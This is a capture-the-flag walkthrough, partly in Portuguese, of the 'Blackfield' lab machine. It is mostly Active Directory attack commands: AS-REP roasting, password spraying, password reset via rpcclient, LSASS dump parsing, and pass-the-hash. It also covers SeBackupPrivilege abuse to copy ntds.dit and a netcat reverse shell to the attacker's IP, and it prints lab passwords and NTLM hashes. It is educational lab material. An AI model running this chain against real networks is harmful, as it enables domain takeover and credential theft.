Blackfield
========================



DNS



Kerberos (88)

RPC (135/593)



SMB



    impacket-lookupsid blackfield.local@10.10.10.192







Valid usernames:
```
cat valid_users.txt                             
audit2020
svc_backup
support
lydericlefebvre
```

    impacket-GetNPUsers -request blackfield.local/ -usersfile valid_users.txt -dc-ip 10.10.10.192



    john --wordlist=/usr/share/wordlists/rockyou.txt svc_backup_hash.txt


LDAP (389/3268)




## Exploitation

Creds:

support:#00^BlackKnight

### Password spray

    crackmapexec smb 10.10.10.192 -u valid_users.txt -p passwords.txt --continue

    crackmapexec winrm 10.10.10.192 -u valid_users.txt -p passwords.txt --continue



    kerbrute passwordspray -d blackfield.local --dc dc01.blackfield.local valid_users.txt '#00^BlackKnight'

### Shares Enumeration Authenticated

    crackmapexec smb 10.10.10.192 -u support -p passwords.txt --shares



    enum4linux -u support -p '#00^BlackKnight' -a -A 10.10.10.192

Obtive outros usuários

### SPNs Kerberoasting

    impacket-GetUserSPNs -request blackfield.local/support:#00^BlackKnight -dc-ip 10.10.10.192

### Domain Enumeration with bloodhound

Aqui temos algumas coisas interessantes para olhar. Vamos considerar o seguinte:

GenericAll - full rights to the object (add users to a group or reset user's password)
GenericWrite - update object's attributes (i.e logon script)
WriteOwner - change object owner to attacker controlled user take over the object
WriteDACL - modify object's ACEs and give attacker full control right over the object
AllExtendedRights - ability to add user to a group or reset password
ForceChangePassword - ability to change user's password
Self (Self-Membership) - ability to add yourself to a group

Isso pode ser visto nesta sessão do bloodhound:



Caso contrário, podemos considerar algumas opções ainda no bloodhound, tais como:

Setar todos os demais usuários como "High Value" e verificar no filtro como fazer para encontrá-lo nas análises e filtros do bloodhound, conforme eu já faço.

Aqui eu notei que o ataque pode ocorrer devido a uma permissão vista conforme o print que tirei acima:



ou 




### rpcclient

    rpcclient -U blackfield.local/support 10.10.10.192
    setuserinfo2 audit2020 23 P@ssword!

Agora a gente faz uma nova enumeração de shares e encontramos informações que nos ajudaram a entrar como o svc_backup na máquina:





Baixei esses arquivos, mas o que fez realmente a diferença foi o de memória, onde peguei o LSASS da máquina e fiz o dump da memória com pypykatz:

    pypykatz lsa minidump lsass.DMP



    evil-winrm -i 10.10.10.192 -u svc_backup -H 9658d1d1dcd9250115e2205d9f48400d

## PrivEsc

Aqui um aprendizado novo!!!



com a permissão de SeBackupPrivilege dá pra conseguir fazer a cópia dos arquivos mais sensíveis do sistema, tais como o system e a sam, a considerar uma máquina fora do domínio podemos prosseguir com os seguintes comandos:

    reg save hklm\sam c:\Temp\sam
    reg save hklm\system c:\Temp\system

Mas para o caso do Domain Controller, temos de considerar os seguintes comandos:

Criar um arquivo, cujo extensão tem de ser  ".dsh"

    cat test.dsh
```
set context persistent nowriters
add volume c: alias raj
create
expose %raj% z:
```

    unix2dos test.dsh

Subir para a máquina alvo e executar os seguintes comandos:

    diskshadow /s test.dsh
    robocopy /b z:\windows\ntds . ntds.dit
    reg save hklm\system c:\Temp\system
Se atentar somente ao diretório direitinho no qual se está operando:
Baixar os arquivos system e ntds.dit para a máquina do atacante e executar o secretsdump localmente da seguinte maneira:

    impacket-secretsdump -ntds ntds.dit -system system local



    impacket-psexec administrator@10.10.10.192 -hashes :184fb5e5178480be64824d4cd53b99ee

    evil-winrm -i 10.10.10.192 -u Administrator -H 184fb5e5178480be64824d4cd53b99ee

Subi o psexec para a máquina e o netcat e fiz a shell para system dessa forma:

    .\pe.exe -accepteula -i -s -d c:\temp\n.exe -e powershell 10.10.14.14 8082
 
